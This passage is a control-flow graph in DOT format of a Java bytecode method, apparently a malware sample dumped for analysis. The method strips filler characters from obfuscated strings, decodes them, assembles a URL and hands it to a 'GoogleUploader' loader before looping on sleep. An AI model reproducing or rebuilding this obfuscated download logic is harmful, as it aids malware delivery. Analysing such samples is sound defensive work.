    "push \"M\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r112"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r112";
    "staticinvoke <GoogleCodeSearch: java.lang.String decodeString(java.lang.String)>"
    "store.r r112"->"staticinvoke <GoogleCodeSearch: java.lang.String decodeString(java.lang.String)>";
    "store.r r482"
    "staticinvoke <GoogleCodeSearch: java.lang.String decodeString(java.lang.String)>"->"store.r r482";
    "store.r r482"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r70"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r70";
    "load.r r70"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r70";
    "store.r r70"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r70";
    "load.r r70"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r482"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r482";
    "load.r r482"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "store.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r112"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r112";
    "load.r r112"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "new java.net.URL"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.net.URL";
    "new java.net.URL"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r423";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r423"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \"90VVVV9VV0VVV9VV0V90\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \"90VVVV9VV0VVV9VV0V90\"";
    "push \"V\""
    "push \"90VVVV9VV0VVV9VV0V90\""->"push \"V\"";
    "push \"V\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <GoogleCode: java.nio.IntBuffer[] __P(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <GoogleCode: java.nio.IntBuffer[] __P(java.lang.String,java.lang.String)>";
    "fieldput <GoogleCode: java.nio.IntBuffer[] mem>"
    "virtualinvoke <GoogleCode: java.nio.IntBuffer[] __P(java.lang.String,java.lang.String)>"->"fieldput <GoogleCode: java.nio.IntBuffer[] mem>";
    "fieldput <GoogleCode: java.nio.IntBuffer[] mem>"->"load.r r0";
    "staticinvoke <GoogleUploader: void init(java.net.URL)>"
    "load.r r0"->"staticinvoke <GoogleUploader: void init(java.net.URL)>";
    "push 10L"
    "staticinvoke <GoogleUploader: void init(java.net.URL)>"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "store.r r0"->"return";
}
